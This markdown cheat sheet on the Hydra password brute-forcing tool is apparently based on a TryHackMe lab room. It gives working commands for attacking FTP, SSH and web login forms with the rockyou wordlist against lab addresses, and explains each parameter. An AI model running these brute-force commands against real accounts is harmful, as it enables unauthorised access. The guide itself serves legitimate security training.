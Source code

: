 ### Hydra User Guide
- All credit goes to: DarkStar7471 for his THM room located here : https://tryhackme.com/room/hydra

- Hydra is a brute force online password cracking tool, which can be used with a variety of protocols
- Protocols that hydra can work with:
Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, 
HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, 
POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, 
VMware-Auth, VNC and XMPP.
- Official kali page:
- https://en.kali.tools/?p=220
- Download it (default on kali):
- https://github.com/vanhauser-thc/thc-hydra
#### Hydra Syntax
- The correct hydra syntax is depended upon the service you are going after.  For example if we want to hit ftp we should use:
#### FTP
````
hydra -l user -P passlist.txt ftp://10.10.10.10
````
#### SSH
````
hydra -l <username> -P /usr/share/wordlists/rockyou.txt 10.10.10.10. -t 4 ssh
````
- `-l` is to specify the username 
- `P` is to specify a password list
- `-t` is to specify the number of threads to run hydra with.
- Note: Hydra recommends no more than 4 threads, however you can run it faster with `-t 16`.
#### POST Web Form
- Hydra can be used to brute force web logins as well.
- Step 1: Determine the request made to the form (POST/GET)
- Identify this in the network tab (developer tools), view the source code, or use Burp Suite.
- Syntax:
````
hydra -l <username> -P /usr/share/wordlists/rockyou.txt 10.10.211.150 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -vV
````
- `http-post-form` specifies the type of form
- `/login url` the login page URL i.e. `http://dont-brute-force-me.com/login.php`
- `:username` the form field name for the username
- `^USER^` this tells hydra to use the username you specified
- `password` the form field name for the password
- `^PASS^` the password list specified in the command 
- `Login` the failed login message
- `Login failed` is the login failure message that the form specifies 
- `F=inncorrect` the word that appears on the page if the login fails
- `-vV` specifies very verbose output 
- Hydra non default ssh port:
````
hydra -t 16 -l sam -P /usr/share/wordlists/rockyou.txt 10.10.80.187 ssh -s 4567 -vV
````
#### Example Syntax
````
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
sudo hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.211.150 http-post-form "/login:username=molly&password=^PASS^:F=incorrect" -V
sudo hydra 10.0.0.1 http-post-form "/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid" -P /usr/share/wordlists/rockyou.txt -l admin
````











